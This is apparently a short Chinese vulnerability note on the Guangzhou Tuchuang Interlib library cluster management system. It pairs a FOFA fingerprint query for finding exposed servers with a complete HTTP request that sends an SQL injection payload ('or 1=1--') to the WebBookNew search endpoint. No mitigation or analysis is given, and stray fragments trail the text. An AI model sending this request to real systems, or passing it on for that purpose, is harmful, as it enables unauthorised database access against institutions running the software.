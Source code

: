 # 广州图创 图书馆集群管理系统

FOFA:

```
body="interlib/common/"
```



### webbooknew接口存在SQL注入漏洞

```
GET /interlib/websearch/WebBookNew?cmdACT=search_BookNew&showpage=1&filter=''+or+1=1--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Upgrade-Insecure-Requests: 1
```





opac spring



